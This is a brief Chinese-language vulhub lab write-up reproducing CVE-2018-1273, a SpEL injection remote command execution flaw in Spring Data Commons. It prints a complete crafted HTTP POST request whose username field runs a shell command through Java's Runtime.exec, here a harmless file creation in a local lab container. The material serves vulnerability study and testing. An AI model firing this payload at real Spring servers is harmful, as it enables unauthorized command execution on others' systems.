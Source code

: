 

# Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->SpEL命令执行

### 0x01漏洞介绍

​			Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

​			影响版本

  		Spring Data Commons <=2.0.5

### 0x02漏洞复现

​		访问`http://your-ip:8080/users`，将可以看到一个用户注册页面

![Spring_Data_Commons_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Commons_RCE_1.jpg)

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功

![Spring_Data_Commons_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Data_Commons_RCE_1.jpg)

